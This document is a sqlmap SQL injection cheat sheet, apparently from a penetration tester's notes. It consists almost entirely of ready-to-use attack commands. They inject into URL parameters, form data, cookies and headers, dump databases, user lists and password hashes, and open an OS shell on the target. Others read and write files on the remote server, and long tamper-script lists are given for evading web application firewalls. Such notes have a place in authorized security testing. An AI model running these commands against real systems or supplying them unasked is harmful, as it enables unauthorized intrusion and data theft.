 # SQLMAP

% sql injection
#plateform/linux #target/remote #cat/ATTACK/INJECTION  #port/80 #port/443 #port/8080 #port/8443

## usage
```
https://github.com/sqlmapproject/sqlmap/wiki/Usage
```

## cheatsheets
```
https://cybr.com/ethical-hacking-archives/sqlmap-cheat-sheets-to-help-you-find-sql-injections/
```

## flush session files
```
--flush-session     # Flush session files for current target
--fresh-queries     # Ignore query results stored in session file
```

## HTTP protocol authentication
types: 
    Basic
    Digest
    NTLM
```
--auth-type <auth_type|Basic> --auth-cred "<login>:<password>"
--headers="Authorization: Basic <value>"
```

## HTTP protocol private key authentication
cat auth_file.key auth_file.pem > auth_file.txt
```
--auth-file <file>
```

## proxy
```
--proxy="socks5://127.0.0.1:2080"
```

## request file
```
-r <request_file> -p <comma_sep_params>
```

## GET Request Injection
```
-u "<url>?<param>=*" -p <param>
-u <url>
```

## POST Request Injection
```
-u "<url>" --data "username=*&password=*"
```

## POST Request Injection (Parse and test forms on target URL)
```
-u "<url>" --forms
```

## injections in Headers and other HTTP Method
```
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"
```

## technique
```
--technique=BEQSTU
```

## Page comparison
```
--string="<string_showed_when_TRUE>"
--not-string="<string_showed_when_FALSE>"
```

## request
```
-sql-query "<query>"
```

## Enumeration
```
--dbs
-D <database_name> --tables
-D <database_name> -T <table> --dump
-D <database_name> -T <table> --columns
-D <database_name> -T <table> -C <column> --dump
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```


## get shell
```
--os-shell
```

## file read
```
--file-read=<remote_file>
```

## file write
```
sqlmap -u <url> --file-write=<local_file> --file-dest=<remote_path_destination>
```



## get with cookie
```
sqlmap -u <url> --cookie=<cookie>
```

## sqlmap - classic with tamper
```
sqlmap -u '<url>' tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## sqlmap - hardcore
```
sqlmap -u '<url>' --level=5 --risk=3 -p '<parameter>' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```

## sqlmap - mysql tamper list
```
sqlmap -u <url> --dbms=MYSQL tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## sqlmap - mssql tamper list
```
sqlmap -u <url> --dbms=MSSQL tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```
